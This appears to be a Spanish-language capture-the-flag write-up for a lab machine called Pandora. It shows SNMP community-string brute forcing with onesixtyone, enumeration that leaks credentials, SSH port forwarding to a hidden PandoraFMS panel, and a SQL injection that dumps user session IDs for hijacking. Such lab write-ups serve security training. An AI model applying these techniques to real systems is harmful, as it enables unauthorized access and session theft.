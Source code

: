 -----------
#### SNMP Fast Enumeration
Hay herramientas que nos ayudan a enumerar el servicio **snmp**, por un lado tenemos **snmpbulkwalk** ( apt install snmpbulkwalk ) y por otro **snmpwalk** ( apt install snmpwalk ). Pero antes de poder enumerar el servicio, debemos conocer la **Community String**, podemos usar herramientas como **onesixtyone** para aplicar fuerza bruta y dar con la **Community String** correcta:
```ruby
# onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt 10.10.11.136
```

Y encontramos que la **Community String** correcta en este caso es **public**:
```ruby
# onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt 10.10.11.136
Scanning 1 hosts, 123 communities
10.10.11.136 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
10.10.11.136 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
```

Ahora que conocemos la **Community String** podemos comenzar enumerar el servicio, podemos usar **snmpbulkwalk**, que esta tiene una velocidad mucho más considerable que **snmpwalk**:
```
snmpbulkwalk -c public -v2c 10.10.11.136
```

----------
#### Information Leakage  
Esto nos lanzara muchisima información, podemos inspeccionar un poco y mirar si hay algo que nos llame la atención. Encontramos unas credenciales que de primero parecen autenticarse contra un script:
![[Pasted image 20230711110932.png]]

Estas mismas credenciales son utilizadas para conectarnos por **SSH**.

-------------
#### Local Port Forwarding 
Si le hechamos un ojo al script contra el que se esta autenticando, podemos observar que lo hace contra un servicio web, especificamente **PandoraFMS** que por alguna razón nosotros no podiamos verlo desde fuera. Ya que estamos desde **SSH**, podemos hacer un **Local Port Forwarding** del puerto **80** para poder verlo desde nuestra maquina:
![[Pasted image 20230711113119.png]]

--------
#### SQL Injection - Admin Session Hijacking  
Buscando por **Google**  sobre la versión actualmente en uso, encontramos que tiene un par de [vulnerabilidades](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/). Hay una especialmente que nos pude ayudar a robar la sesión de los usuarios y es que en la base de datos se suelen almacenar las sesiones de los usuarios y esta version es vulnerable a SQLi. Echando un ojo encotramos las siguientes sesiones:
```
+-----------------------------------------------------+----------------------------+-------------+
| data                                                | id_session                 | last_active |
+-----------------------------------------------------+----------------------------+-------------+
| id_usuario|s:6:"daniel";                            | 09vao3q1dikuoi1vhcvhcjjbc6 | 1638783555  |
| NULL                                                | 0ahul7feb1l9db7ffp8d25sjba | 1638789018  |
| NULL                                                | 1fm25cnd6n92c7169vhmvbaf1c | 1689101923  |
| NULL                                                | 1um23if7s531kqf5da14kf5lvm | 1638792211  |
| NULL                                                | 2e25c62vc3odbppmg6pjbf9bum | 1638786129  |
| id_usuario|s:6:"daniel";                            | 346uqacafar8pipuppubqet7ut | 1638540332  |
| NULL                                                | 3koutb9nbo2ehokr19svd74kk4 | 1689101260  |
| NULL                                                | 3me2jjab4atfa5f8106iklh4fc | 1638795380  |
| NULL                                                | 4562pucm64jf8bmhtg2rk6m5sc | 1689102363  |
| NULL                                                | 4f51mju7kcuonuqor3876n8o02 | 1638786842  |
| id_usuario|s:6:"daniel";                            | 4nsbidcmgfoh1gilpv8p5hpi2s | 1638535373  |
```